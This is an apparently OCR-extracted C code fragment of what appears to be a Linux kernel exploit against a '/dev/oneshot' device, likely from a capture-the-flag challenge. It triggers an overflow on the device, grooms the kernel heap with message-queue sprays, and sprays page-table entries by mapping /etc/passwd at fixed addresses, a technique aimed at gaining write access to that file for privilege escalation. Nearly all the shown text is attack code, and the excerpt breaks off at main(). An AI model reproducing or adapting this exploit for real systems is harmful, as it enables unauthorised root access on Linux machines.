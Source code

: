 ```c

void setup(int size)
{
    char buf[8] = {0};
    target_fd = open("/dev/oneshot", O_RDWR);
    write(target_fd, buf, size);
    for (int i = 0; i < size - 2; i++)
       write(target_fd, buf, 1);
}

int fd;
void _exp()
{
    fd = open("/etc/passwd", O_RDONLY);
    if (fd >= 0)
        puts("[*] open /etc/passwd successfully");

    
#define BUFF_SIZE (0x1000-48)
   struct {
	    long mtype;
	    char mtext[BUFF_SIZE];
    } msg;

    memset(msg.mtext, 0x42, BUFF_SIZE);
    msg.mtype = 1;
    
    int msqids[1 << 8] = {0};
    int result;
    long msgtyp = 0;
    for (int i = 0; i < (1 << 8); i++) {
        msqids[i] = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
        result = msgsnd(msqids[i], (void *) &msg, sizeof(msg.mtext), IPC_NOWAIT);
        if (result < 0)
            puts("[*] msgsnd error");
    }
    for (int i = 0; i < (1 << 8); i++) { 
        result = msgrcv(msqids[i], (void *) &msg, sizeof(msg.mtext),
                    msgtyp, MSG_NOERROR | IPC_NOWAIT);
        if (result < 0)
            puts("[*] msgrcv error");
    }

    // spray PTE
    /*
    0x200000
    0x400000
    0x600000
    0x800000
    0xa00000
    ...
    */
    for (int i = 0; i < (1 << 8)-3; i++)
        pte_addr[i] = mmap((void *) ((i+1) << (9+12)), 0x1000, PROT_READ, MAP_SHARED | MAP_FIXED, fd, 0);

    int x = 0;
    for (int i = 0; i < (1 << 8)-3; i++)
        x += pte_addr[i][0];
}

int main()
{    
```
